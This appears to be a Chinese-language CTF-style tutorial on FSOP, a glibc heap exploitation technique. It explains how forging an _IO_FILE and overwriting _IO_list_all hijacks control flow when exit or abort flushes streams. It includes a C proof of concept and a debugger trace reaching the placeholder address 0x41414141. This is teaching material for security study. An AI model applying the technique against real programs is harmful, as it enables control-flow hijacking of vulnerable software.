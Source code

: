 # FSOP

## 介绍
FSOP是File Stream Oriented Programming的缩写，根据前面对FILE的介绍得知进程内所有的_IO_FILE结构会使用_chain域相互连接形成一个链表，这个链表的头部由_IO_list_all维护。

FSOP的核心思想就是劫持_IO_list_all的值来伪造链表和其中的_IO_FILE项，但是单纯的伪造只是构造了数据还需要某种方法进行触发。FSOP选择的触发方法是调用_IO_flush_all_lockp，这个函数会刷新_IO_list_all链表中所有项的文件流，相当于对每个FILE调用fflush，也对应着会调用_IO_FILE_plus.vtable中的_IO_overflow。

```
int
_IO_flush_all_lockp (int do_lock)
{
  ...
  fp = (_IO_FILE *) _IO_list_all;
  while (fp != NULL)
  {
       ...
       if (((fp->_mode <= 0 && fp->_IO_write_ptr > fp->_IO_write_base))
	           && _IO_OVERFLOW (fp, EOF) == EOF)
	       {
	           result = EOF;
          }
        ...
  }
}
```

![](./figure/abort_routine.001.jpeg)

而_IO_flush_all_lockp不需要攻击者手动调用，在一些情况下这个函数会被系统调用：

1.当libc执行abort流程时

2.当执行exit函数时

3.当执行流从main函数返回时


## 示例

梳理一下FSOP利用的条件，首先需要攻击者获知libc.so基址，因为_IO_list_all是作为全局变量储存在libc.so中的，不泄漏libc基址就不能改写_IO_list_all。

之后需要用任意地址写把_IO_list_all的内容改为指向我们可控内存的指针，

之后的问题是在可控内存中布置什么数据，毫无疑问的是需要布置一个我们理想函数的vtable指针。但是为了能够让我们构造的fake_FILE能够正常工作，还需要布置一些其他数据。
这里的依据是我们前面给出的

```
if (((fp->_mode <= 0 && fp->_IO_write_ptr > fp->_IO_write_base))
	           && _IO_OVERFLOW (fp, EOF) == EOF)
	       {
	           result = EOF;
          }
```

也就是

* fp->_mode <= 0
* fp->_IO_write_ptr > fp->_IO_write_base



在这里通过一个示例来验证这一点，首先我们分配一块内存用于存放伪造的vtable和_IO_FILE_plus。
为了绕过验证，我们提前获得了_IO_write_ptr、_IO_write_base、_mode等数据域的偏移，这样可以在伪造的vtable中构造相应的数据

```
#define _IO_list_all 0x7ffff7dd2520
#define mode_offset 0xc0
#define writeptr_offset 0x28
#define writebase_offset 0x20
#define vtable_offset 0xd8

int main(void)
{
    void *ptr;
    long long *list_all_ptr;

    ptr=malloc(0x200);

    *(long long*)((long long)ptr+mode_offset)=0x0;
    *(long long*)((long long)ptr+writeptr_offset)=0x1;
    *(long long*)((long long)ptr+writebase_offset)=0x0;
    *(long long*)((long long)ptr+vtable_offset)=((long long)ptr+0x100);

    *(long long*)((long long)ptr+0x100+24)=0x41414141;

    list_all_ptr=(long long *)_IO_list_all;

    list_all_ptr[0]=ptr;

    exit(0);
}
```

我们使用分配内存的前0x100个字节作为_IO_FILE，后0x100个字节作为vtable，在vtable中使用0x41414141这个地址作为伪造的_IO_overflow指针。

之后，覆盖位于libc中的全局变量 _IO_list_all，把它指向我们伪造的_IO_FILE_plus。

通过调用exit函数，程序会执行 _IO_flush_all_lockp，经过fflush获取_IO_list_all的值并取出作为_IO_FILE_plus调用其中的_IO_overflow

```
---> call _IO_overflow
[#0] 0x7ffff7a89193 → Name: _IO_flush_all_lockp(do_lock=0x0)
[#1] 0x7ffff7a8932a → Name: _IO_cleanup()
[#2] 0x7ffff7a46f9b → Name: __run_exit_handlers(status=0x0, listp=<optimized out>, run_list_atexit=0x1)
[#3] 0x7ffff7a47045 → Name: __GI_exit(status=<optimized out>)
[#4] 0x4005ce → Name: main()

```
